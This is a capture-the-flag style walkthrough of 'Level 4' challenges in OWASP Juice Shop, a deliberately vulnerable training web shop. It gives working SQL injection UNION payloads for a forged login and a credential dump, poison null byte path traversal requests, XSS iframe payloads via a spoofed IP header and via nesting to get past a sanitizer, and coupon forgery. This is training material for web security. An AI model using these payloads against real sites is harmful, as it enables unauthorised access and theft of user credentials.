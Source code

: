 # Level 4

## Christmas Special (Injection)
_Order the Christmas special offer of 2014._

You can find "Christmas special offer of 2014" in [application-configuration.json](misc/application-configuration.json).
By comparing with the list of products (`GET /api/Product`), you can determine that "Christmas special offer of 2014"
must have product ID `10`.

Knowing the ID, just add it to the cart:
```
POST /api/BasketItems/

{"ProductId":10,"BasketId":"1","quantity":1}
```

Finally, finish the order in your browser.

## Easter Egg (Broken Access Control)
_Find the hidden easter egg._

The egg is at `/ftp/eastere.gg`. However, it's protected by a file extension filter:
```
403 Error: Only .md and .pdf files are allowed!
```

The trick is exploiting [CWE-626: Null Byte Interaction Error (Poison Null Byte)](https://cwe.mitre.org/data/definitions/626.html)
> The poison null byte is frequently useful in path traversal attacks by terminating hard-coded extensions that are added to a filename.

Call `GET /ftp/eastere.gg%2500.md` (`%25` is URL encoded `%`):
```
"Congratulations, you found the easter egg!"
- The incredibly funny developers

...

...

...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

Good luck, egg hunter!
```

## Ephemeral Accountant (Injection)
_Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user._

This is about SQL injection into _Login form_. If you already done the [Database Schema](level3.md#database-schema-injection)
challenge, you know the number of columns and data types of `users` table.
 
```
xxx' UNION SELECT 999, '', 'acc0unt4nt@juice-sh.op', 'password', 'accounting', '', '0.0.0.0', '/assets/public/images/uploads/default.svg', '', 1, '2020-08-15T18:22:49.161Z', '2020-08-15T18:22:49.161Z', null; --
```

The role must be the `accounting`!

## Expired Coupon (Improper Input Validation)
_Successfully redeem an expired campaign coupon code._

The first step is to take a look how coupons work. You can always get a valid coupon on
[Juice shop Twitter](https://twitter.com/owasp_juiceshop).

There's a [coupon for 09/2020](https://twitter.com/owasp_juiceshop/status/1301392070532308992):
```
q:<IrfFb4l
```

Log in, add some items into the basket and make an order using the coupon. The important request is:
```
POST /rest/basket/1/checkout

{"couponData":"cTo8SXJmRmI0bC0xNjAxMTYxMjAwMDAw","orderDetails":{"paymentId":"4","addressId":"3","deliveryMethodId":"1"}}
```

Decode `couponData` (Base64):
```
q:<IrfFb4l-1601161200000
```

There's the coupon code (`q:<IrfFb4l`), and today's timestamp (`1601161200000`).

Now let's look for some expired coupons.
 
At first, I was looking for an older coupon on Twitter but that does not work!
The challenge description states: "redeem an expired **campaign** coupon code".

Searching for `campaign` in source code points to:
```
WMNSDY2019: {
    validOn: 15519996e5,
    discount: 75
},
WMNSDY2020: {validOn: 1583622e6, discount: 60},
WMNSDY2021: {validOn: 1615158e6, discount: 60},
WMNSDY2022: {validOn: 1646694e6, discount: 60},
WMNSDY2023: {validOn: 167823e7, discount: 60},
ORANGE2020: {validOn: 15885468e5, discount: 50},
ORANGE2021: {validOn: 16200828e5, discount: 40},
ORANGE2022: {validOn: 16516188e5, discount: 40},
ORANGE2023: {validOn: 16831548e5, discount: 40}
```

There's `WMNSDY2019` with valid on `15519996e5` --> `1551999600000` -> `Thursday 7. March 2019 23:00:00`.

Ok, let's try to use it in `couponData`. Encode `WMNSDY2019-1551999600000` with Base64:
```
V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw
```

Intercept the checkout request and modify the coupon data with `V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw`.

Bingo, the discount is yours!

## Forgotten Developer Backup (Sensitive Data Exposure)
_Access a developer's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md` and obtain [package.json.bak](misc/package.json.bak).

## Forgotten Sales Backup (Sensitive Data Exposure)
_Access a salesman's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md`
```
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

## HTTP-Header XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> through an HTTP header._

The first step is to find a place where an HTTP header is reflected back to the user.

I was suspicious from the beginning about the _Last Login IP_ page (`/#/privacy-security/last-login-ip`). The IP address
is usually taken from HTTP header [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For).

Next step is to understand how this last login IP is set.
 
Grepping through [main-es2015.js](misc/main-es2015.js):
```
grep 'rest/' misc/main-es2015.js
```

One of the results points to:
```
saveLastLoginIp() {
    return this.http.get(this.hostServer + "/rest/saveLoginIp").pipe(Object(s.a)(t => t), Object(l.a)(t => {
        throw t
    }))
}
```

This method is called during `logout`.

Log in, log out and let's try to manipulate the HTTP headers.

First attempt is obvious:
```
X-Forwarded-For: 1.1.1.1
```

No luck! 

Don't despair, there are more ways how to [spoof an IP address](https://portswigger.net/kb/issues/00400110_spoofable-client-ip-address).

`True-Client-IP` is the correct one. Just add this header to `GET /rest/saveLoginIp` request:
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

If you really want to trigger the XSS (not necessary to solve the challenge):
1. Log in
2. Log out (triggers `GET /rest/saveLoginIp`)
3. Replay `GET /rest/saveLoginIp` with the extra header
4. Log in and go to _Last Login IP_ page

## Leaked Unsafe Product (Sensitive Data Exposure)
_Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous._

Similar to the challenge [Christmas Special](#christmas-special-injection), we can easily identify the product in 
[application-configuration.json](misc/application-configuration.json):
```json
{
    "name": "Rippertuer Special Juice",
    "description": "Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br/><span style=\"color:red;\">This item has been made unavailable because of lack of safety standards.</span>",
    "price": 16.99,
    "image": "undefined.jpg",
    "keywordsForPastebinDataLeakChallenge": [
      "hueteroneel",
      "eurogium edule"
    ]
}
```

Googling for the rarest fruits is not the solution, they are all safe.
So either google for `Rippertuer Special Juice` and find this paste https://pastebin.com/90dUgd7s
or get the answer from `keywordsForPastebinDataLeakChallenge` (guess this is not intentional though).

Submit `Hueteroneel and Eurogium Edule` into _Customer Feedback_ form.

## Legacy Typosquatting (Vulnerable Components)
_Inform the shop about a typosquatting trick it has been a victim of at least in v6.2.0-SNAPSHOT. (Mention the exact name of the culprit)_

This challenge follows [Forgotten Developer Backup](#forgotten-developer-backup-sensitive-data-exposure).

Inspect [package.json.bak](misc/package.json.bak). It is for `v6.2.0-SNAPSHOT`!

I was hoping to find a malicious NPM package as described in [Malicious packages in npm](https://iamakulov.com/notes/npm-malicious-packages/)
(one of the challenge hints).

I ran `npm audit`(see [package-audit.json](misc/package-audit.json)) but didn't find anything suspicious.

Next, I tried to get something from the [Git history](https://github.com/bkimminich/juice-shop/compare/v6.1.0...v6.2.0) comparing `v6.2.0` to `v6.1.0`
and looking for changes in `package.json`.

All wrong. There is no real vulnerability :-(

Not sure what's the intended way of solving this challenge except for going through the dependencies one by one.

The typo-squatted NPM package is [epilogue-js](https://www.npmjs.com/package/epilogue-js).

Submit `epilogue-js` into the Feedback form.

## Nested Easter Egg (Cryptographic Issues)
_Apply some advanced cryptanalysis to find the real easter egg._

This challenge follows [Easter Egg](#easter-egg-broken-access-control). The goal is to decrypt:
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==
```

This is rather easy.
 
1) Decode `Base64` (https://www.base64decode.org/):
```
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```

2) Apply [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (https://rot13.com/):
```
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

Call `GET /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`

## Reset Bender's Password (Broken Authentication)
_Reset Bender's password via the Forgot Password mechanism with the original answer to his security question._

Bender's security question is:
> Company you first work for as an adult?

[Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)) is a well-known character from the
TV show [Futurama](https://en.wikipedia.org/wiki/Futurama).

The [wiki](https://en.wikipedia.org/wiki/Bender_(Futurama)) lists his occupations as:
- Suicide booth construction worker (formerly)
- Planet Express Bender / Chef

Read more about [suicide booths](https://futurama.fandom.com/wiki/Suicide_Booth):
> Suicide booths were invented somewhere between 2006 and 2008. Since 2008, America's most important brand of suicide booths is Stop'n'Drop. 

The correct answer is `Stop'n'Drop`

## Reset Uvogin's Password (Sensitive Data Exposure)
_Reset Uvogin's password via the Forgot Password mechanism with the original answer to his security question._

Uvogin's security question is:
> Your favorite movie?

This one is rather hard so let's start with some hints:
> People often reuse aliases online. You might be able to find something by looking online for Uvogin's name or slight variations of it based on his unique writing habits

"Unique writing habits" points to [leetspeak](https://en.wikipedia.org/wiki/Leet).
See that all comments from `Uvogin` are like `y0ur f1r3wall needs m0r3 musc13` or `0 st4rs f0r 7h3 h0rr1bl3 s3cur17y`.

Googling for `uv0gin` quickly reveals his [Twitter account](https://twitter.com/uv0gin).
Unfortunately, nothing useful is here.

The catch is that the important tweet was deleted (_I had no idea and had to look into solutions_).
However, you can recover it with a service such as [Wayback Machine](https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin):

![](images/uv0gin-movie.png)

The correct answer is `Silence of the Lambs`

## Server-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a server-side security mechanism._

I tried to use this payload in the _Customer Feedback_ form, but the payload was deleted:
```
Hello <iframe src="javascript:alert(`xss`)">
```

Resulting into:
```
Hello
```

Hopefully, it's just a simple string replacement. So let's try:
```
<<iframe src="javascript:alert(`xss`)">iframe src="javascript:alert(`xss`)">
```

Bingo, the nested ```<iframe src="javascript:alert(`xss`)">``` string is deleted resulting into the original payload!

## Steganography (Security through Obscurity)
_Rat out a notorious character hiding in plain sight in the shop. (Mention the exact name of the character)_

I have some experience with steganography, yet I was unable to crack this one without help.
I was missing a hint where to look, otherwise there are too many places.

The character is hidden in one of the carousel images (`/#/about`)
(_the only clue is that just one of the carousel images is a PNG, others are JPGs_).

This is the one:

![](misc/5.png)

Nothing suspicious on the first sight. You need a tool to extract the hidden data.
The usual problem is that you don't know which tool is the right one ...

I tried, with no luck, standard utilities such as:
- `strings`
- `exiftool`
- `identify -verbose`
- `binwalk`
- [Stegsolve](http://www.caesum.com/handbook/stego.htm)
- [Forensically](https://29a.ch/photo-forensics/)

However, the tool for this job is [OpenStego](https://www.openstego.com/index.html). I admit I used it in the past.

With _OpenStego_, you can extract the hidden image:

![](misc/J7RbRp1D5XDM5LINx0TdgeFX_o.png)

The last part is to find out the character name. Googling by the image is no use.
However, I was able to Google this picture with keywords `famous cartoon characters green monster ribs`:

![](misc/pickle-rick.jpg)

Picture comes from [Rick and Morty Season 3 Episode 3 Review](https://www.thecinemaholic.com/rick-and-morty-season-3-episode-3/).
You can read here that the hidden character name is `Pickle Rick`.

## User Credentials (Injection)
_Retrieve a list of all user credentials via SQL Injection._

This challenge follows the [Database Schema](level3.md#database-schema-injection) challenge:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+username,email,password,role,deluxeToken,lastLoginIp,profileImage,totpSecret,isActive+FROM+Users--
```

The result is in [misc/users.json](misc/users.json).